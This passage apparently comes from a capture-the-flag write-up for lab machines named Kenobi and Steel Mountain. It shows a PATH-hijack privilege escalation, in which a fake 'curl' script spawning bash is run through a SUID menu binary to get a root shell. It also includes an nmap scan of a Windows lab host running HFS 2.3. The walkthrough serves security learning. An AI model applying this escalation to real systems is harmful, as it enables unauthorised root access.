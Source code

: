 ```
kenobi@kenobi:~/bin$ cat curl; chmod +x curl
#!/bin/bash

bash
```
With our exploit set up, we can run it from the menu binary.
```
kenobi@kenobi:~/bin$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~/bin# cd /root
root@kenobi:/root# ls
root.txt
```

## STEEL MOUNTAIN

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-18 13:14 BST
Nmap scan report for 10.10.115.163
Host is up (0.091s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-07-18T12:16:04+00:00; -1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
